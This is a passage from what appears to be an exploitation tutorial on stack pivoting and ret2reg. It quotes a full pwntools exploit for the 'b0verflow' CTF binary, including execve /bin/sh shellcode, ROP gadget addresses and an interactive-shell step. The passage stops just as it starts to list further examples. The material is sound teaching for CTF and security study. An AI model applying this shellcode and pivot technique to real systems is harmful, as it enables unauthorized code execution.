 You can see another example of this technique in [https://guyinatuxedo.github.io/17-stack_pivot/xctf16_b0verflow/index.html](https://guyinatuxedo.github.io/17-stack_pivot/xctf16_b0verflow/index.html). There is a buffer overflow without NX enabled, it's used a gadget to r**educe the address of `$esp`** and then a `jmp esp;` to jump to the shellcode:

```python
# From https://guyinatuxedo.github.io/17-stack_pivot/xctf16_b0verflow/index.html
from pwn import *

# Establish the target process
target = process('./b0verflow')
#gdb.attach(target, gdbscript = 'b *0x080485a0')

# The shellcode we will use
# I did not write this, it is from: http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# Establish our rop gadgets

# 0x08048504 : jmp esp
jmpEsp = p32(0x08048504)

# 0x080484fd : push ebp ; mov ebp, esp ; sub esp, 0x24 ; ret
pivot = p32(0x80484fd)

# Make the payload

payload = ""
payload += jmpEsp # Our jmp esp gadget
payload += shellcode # Our shellcode
payload += "1"*(0x20 - len(shellcode)) # Filler between end of shellcode and saved return address
payload += pivot # Our pivot gadget

# Send our payload
target.sendline(payload)

# Drop to an interactive shell
target.interactive()
```

## Ret2reg

Similarly, if we know a function returns the address where the shellcode is stored, we can leverage **`call eax`** or **`jmp eax`** instructions (known as **ret2eax** technique), offering another method to execute our shellcode. Just like eax, **any other register** containing an interesting address could be used (**ret2reg**).

### Example

You can find some examples here:&#x20;
